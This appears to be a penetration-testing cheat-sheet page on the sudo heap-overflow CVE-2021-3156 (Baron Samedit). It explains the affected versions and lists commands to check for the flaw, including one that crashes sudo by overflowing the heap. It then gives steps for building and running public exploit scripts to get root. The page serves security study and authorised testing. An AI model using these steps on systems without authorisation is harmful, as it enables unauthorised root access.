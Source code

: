 ```yaml
---
description: >-
  CVE-2021–3156
---
```


# Sudo Baron Samedit


# Theory

The "Sudo Baro Samedit" is heap buffer overflow exploit allowing any user to escalate privileges to root. No misconfigurations required, this exploit works with the default settings, for any user regardless of Sudo permissions.  

The vulnerability was patched, but it didn’t update the version number for sudo or any other binary. So it’s not possible to tell definitively if a version if vulnerable or not just by version number.It can affects any unpatched version of the sudo program from **1.8.2–1.8.31p2** and **1.9.0–1.9.5p1**

# Practice

{% tabs %}
{% tab title="Enum" %}
To check, you run the following command. If this returns an error message `sudoedit: /: not a regular file`, then it’s vulnerable. If it returns the sudoedit usage, it’s not.
```bash
sudoedit -s /
```

Or with the following command, if the system is vulnerable it will overwrite the heap buffer and crash the process:
```bash
sudoedit -s '\' $(python3 -c 'print("A"*1000)')
```
{% endtab %}

{% tab title="Exploit" %}
We can use the [Sudo Baron Samedit Exploit](https://github.com/worawit/CVE-2021-3156) made by worawit.
For Linux distributions that glibc has tcache support and enabled (CentOS 8, Ubuntu >= 17.10, Debian 10) we can use exploit_nss.py:
```bash
python3 exploit_nss.py
``` 
For Linux distribution that glibc has no tcache support:
```
python exploit_nss_xxx.py #for specific version
python exploit_userspec.py #Last try
```

Alternativly, we may use the [Sudo Baron Samedit Exploit](https://github.com/blasty/CVE-2021-3156) made by blasty (Ubuntu 18.04.5, Ubuntu 20.04.1, Debian 10.0)  
On the vulnerable host we can do:
```
# Make file from source
make

# Replace 0 by your OS target
./sudo-hax-me-a-sandwich 0 

```

{% endtab %}
{% endtabs %}


## References

{% embed url="https://datafarm-cybersecurity.medium.com/exploit-writeup-for-cve-2021-3156-sudo-baron-samedit-7a9a4282cb31" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services-registry-modify-permissions" %}
